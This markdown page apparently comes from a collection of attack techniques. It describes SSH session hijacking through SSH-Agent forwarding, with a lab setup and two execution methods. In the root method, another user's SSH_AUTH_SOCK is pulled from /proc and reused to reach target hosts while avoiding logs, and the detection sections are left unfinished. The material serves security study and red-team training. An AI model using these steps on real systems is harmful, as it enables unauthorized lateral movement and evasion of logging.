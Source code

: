 # SSH Hijacking With SSH-Agent Forwarding
## Summary

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection. SSH agent forwarding is a mechanism that allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine. This is useful in situations where a user might need to ssh from an intermediate host into another network segment, which can't be directly accessed from the originating machine. It has the advantage of not requiring the private key to be stored on the intermediate server and the user does not need to enter their passphrase more than once.

SSH Hijacking is when you take control over the existing SSH session using the socket that gets created. In this scenario, the user will be logged into the intermediate server that's handling the SSH-Agent. Due to the intermediate server assuming the logged in user has already entered the passphrase(s) for the target computers, this technique allows an attacker to log in to every system that trusts the intermediate server without knowing the passphrase to the private key file.

## Prerequisites

A client, intermediate server, and at least one target must be used for this attack, each one requires SSH to be installed and must support SSH-Agent Forwarding. The client must be logged into the intermediate server and has entered the passphrase at least once, and must not close their connection to the server.

## Setup

In this setup, there will be three hosts; client, intermediate, and target. The intermediate host will house the SSH-Agent forwarding. The public key needs to be installed on both intermediate and target. The keys can be generated and uploaded with the following commands on the client:

```bash
ssh-keygen
ssh-copy-id -i /path/to/created/key.pub user@intermediate
ssh-copy-id -i /path/to/created/key.pub user@target
```

Next, SSH needs to be told to use a forwarded agent. Ensure the following is set in ~/.ssh/config:

```config
ForwardAgent yes
```

Activate the agent and add the generated keys with the following commands on the client, ssh-add will prompt for the passphrase for the key:

```bash
eval `ssh-agent`
ssh-add /path/to/created/key.pub
```

Now, on the intermediate server, the following must be set in /etc/ssh/sshd_config:

```config
AllowAgentForwarding yes
```

The client must log into the intermediate server, and keep this connection alive. The client must also enter the passphrase at least once so that SSH-Agent will remember the client being authenticated, so it will not prompt for the passphrase during execution.

## Execution
### Method 1 - Low Privileges

This method only works if the user you have compromised has an active SSH session to the intermediate server, if you can not authenticate as the user that does have the session, then you will need root privileges.

Since you are effectively the user you have compromised, simply running the following commands will allow you to gain access to any target system that's been configured for SSH-Agent Forwarding for this user:

```bash
ssh user@intermediate # On the client
ssh user@target # On the intermediate server
```

#### Indicators of Compromise

TODO

### Method 2 - Root Privileges

One way to perform this method is simply to use the su or sudo command to become that user, and then following method 1. However, to avoid running these commands as they do populate logs on Linux by default, this method will outline how to do it from root alone **FROM THE INTERMEDIATE SERVER**.

The first step is to find an active SSH session as any user on the box, and fetching the environment variables from all of it's children PID's. This can be done with the following commands:

```bash
ps aux | grep ssh  # Find the user who has an active session
pstree -p user | grep ssh # Find the list of PID's following that session
cat /proc/PID/environ | tr '\0' '\n' | grep "SSH"
```

If the output from the last command contains "SSH_AUTH_SOCK", then it's value will likely work for this method. It should contain a file path to a socket, to abuse this as root (or if the file permissions on the socket are insecure somehow) then the following commands can be used:

```bash
SSH_AUTH_SOCK=/tmp/ssh-randomstring/agent.number ssh-add -l
SSH_AUTH_SOCK=/tmp/ssh-randomstring/agent.number ssh user@target
```

#### Indicators of Compromise

TODO